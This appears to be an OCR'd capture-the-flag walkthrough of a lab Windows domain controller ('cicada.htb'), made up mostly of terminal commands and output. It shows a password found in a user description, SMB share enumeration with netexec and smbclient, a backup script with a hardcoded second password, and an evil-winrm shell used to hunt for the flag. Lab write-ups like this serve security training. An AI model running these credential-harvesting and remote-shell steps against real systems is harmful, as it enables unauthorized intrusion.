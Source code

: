 David Orelious	David Orelious	david.orelious	 	Domain Users	03/14/24 12:17:29	08/28/24 17:25:57	03/15/24 06:32:21	NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD	03/14/24 12:17:29	1108	Just in case I forget my password is aRt$Lp#7t*VQ!3
******************************************************************************************************************************************************************************************************
└─$ netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
******************************************************************************************************************************************************************************************************
└─$ smbclient -U david.orelious //10.10.11.35/DEV
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 333994 blocks available
smb: \> mget *
******************************************************************************************************************************************************************************************************
└─$ cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
******************************************************************************************************************************************************************************************************
└─$ evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'                                                    
Evil-WinRM shell v3.5                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                      
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 
******************************************************************************************************************************************************************************************************
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue
